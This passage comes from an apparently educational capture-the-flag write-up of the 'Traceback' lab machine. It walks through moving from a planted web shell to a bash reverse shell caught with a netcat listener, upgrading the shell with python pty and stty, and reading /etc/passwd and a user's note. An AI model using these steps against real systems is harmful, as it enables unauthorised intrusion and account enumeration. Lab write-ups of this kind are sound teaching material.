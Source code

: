 After logging in, we are presented with information that the shell has gathered that includes the username and group that we are executing as, the name of the machine and its operating system information, and a listing of the directory of /var/www/html which is the root web directory. Unfortunately, the poor choice of colors makes the page difficult to read and so we should try and get a reverse shell to be able to explore more efficiently. We can do that by executing a bash reverse shell in the Execute section of the web shell as shown in Figure 6-5.

![A picture containing text

Description automatically generated](../.gitbook/assets/3%20%283%29.png)

Starting a netcat listener on port 6001, we get a hit when the script is executed and we can then upgrade the shell

webadmin@traceback:/var/www/html$ python3 -c 'import pty;pty.spawn\("/bin/bash"\);'

&lt;ml$ python3 -c 'import pty;pty.spawn\("/bin/bash"\);'

webadmin@traceback:/var/www/html$ ^Z

\[1\]+ Stopped nc -lvnp 6001

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Traceback\]

└──╼ $stty raw -echo

┌─\[rin@parrot\]─\[~/boxes/Traceback\]

nc -lvnp 6001

webadmin@traceback:/var/www/html$

Now that we are on the box, we can start with some simple enumeration. The first thing is to check what users are on the box by looking at the passwd file:

webadmin@traceback:/var/www/html$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

…

webadmin:x:1000:1000:traceback,,,:/home/webadmin:/bin/bash

sshd:x:106:65534::/run/sshd:/usr/sbin/nologin

sysadmin:x:1001:1001::/home/sysadmin:/bin/sh

From this file, we can see that there are three users that have home directories and can login; root, webadmin and sysadmin. Users that are not expected to login do not have a home directory configured and instead of a shell, will have the /usr/sbin/nologin program that will log the attempted login and print a message saying the "This account is currently not available". Exploring their home directories, we only have access to /home/webadmin, since that is who we are, and in that directory, we find a file note.txt with the contents:

webadmin@traceback:/home/webadmin$ cat note.txt

- sysadmin -

I have left a tool to practice Lua.

I'm sure you know where to find it.
